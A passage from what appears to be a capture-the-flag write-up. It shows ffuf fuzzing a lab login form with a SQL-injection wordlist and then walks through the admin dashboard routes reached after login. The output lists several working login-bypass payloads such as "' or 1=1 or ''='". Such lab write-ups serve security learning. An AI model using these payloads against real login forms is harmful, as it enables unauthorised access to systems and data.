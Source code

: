 ```
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.101/administrative
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : uname=FUZZ&password=0xdf
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 206
________________________________________________

admin' or '             [Status: 200, Size: 1296, Words: 280, Lines: 33]
hi' or 'x'='x';         [Status: 200, Size: 1296, Words: 280, Lines: 33]
x' or 1=1 or 'x'='y     [Status: 200, Size: 1296, Words: 280, Lines: 33]
' or 1=1 or ''='        [Status: 200, Size: 1296, Words: 280, Lines: 33]
' or 0=0 #              [Status: 200, Size: 1296, Words: 280, Lines: 33]
:: Progress: [267/267] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

There’s five examples of other payloads that would allow for login.

### Enumerate Dashboard

In addition to the static dashboard shown above, there’s a few more routes, available via the menu on the left side.

`/dashboard/stories` gives a control panel for the various blog posts on the main site:

![image-20210906200206998](https://0xdfimages.gitlab.io/img/image-20210906200206998.png)

I can edit pages here, and it shows up on the main site:

![image-20211201135434066](https://0xdfimages.gitlab.io/img/image-20211201135434066.png)

`/dashboard/users` shows a single user, admin:

![image-20210906200225911](https://0xdfimages.gitlab.io/img/image-20210906200225911.png)

`/dashboard/settings` gives settings:

![image-20210906200306510](https://0xdfimages.gitlab.io/img/image-20210906200306510.png)

The other panels include System:

![image-20210906200336447](https://0xdfimages.gitlab.io/img/image-20210906200336447.png)

Email:
